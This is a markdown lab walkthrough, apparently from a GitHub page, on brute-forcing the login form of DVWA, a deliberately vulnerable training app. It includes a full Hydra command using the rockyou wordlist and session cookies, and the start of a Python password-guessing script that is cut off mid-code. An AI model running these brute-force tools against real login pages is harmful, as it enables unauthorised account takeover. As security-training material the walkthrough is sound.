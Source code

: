 # Brute Force Vulnerabilities in DVWA

This document outlines how to exploit brute force vulnerabilities in DVWA at different security levels.

## Overview

Brute force attacks involve attempting numerous credentials until finding a valid username/password combination. DVWA's brute force section simulates a login form that can be exploited at various difficulty levels.

## Prerequisites

- DVWA running and accessible from Kali Linux
- Access to the DVWA application
- Hydra, Burp Suite, or custom scripts for automated attacks

## Exploitation Steps

### Low Security Level

1. **Navigate to Brute Force page**
   - Log into DVWA
   - Select "Brute Force" from the left menu
   - Set security level to "Low" (DVWA Security → Low)

2. **Manual Testing**
   - Try logging in with username `admin` and incorrect password
   - Observe the failure message: "Username and/or password incorrect."
   - Try a valid login (admin/password) to see success message

3. **Understanding the Vulnerability**
   - At low level, DVWA has no protection against rapid login attempts
   - No CAPTCHA, no account lockout, no rate limiting

4. **Using Hydra**
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-get-form://dvwa.local/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=your_session_id; security=low"
   ```

5. **Using Custom Python Script**
   ```python
   #!/usr/bin/env python3
   import requests
   import sys

   target_url = "http://dvwa.local/vulnerabilities/brute/"
   username = "admin"
   wordlist = "/usr/share/wordlists/rockyou.txt"
   
   cookies = {
       "PHPSESSID": "your_session_cookie",
       "security": "low"
   }
   
   with open(wordlist, 'r', encoding='latin-1') as f:
       for line in f:
           password = line.strip()
           print(f"Trying: {password}")
           
           params = {
               "username": username,
   ```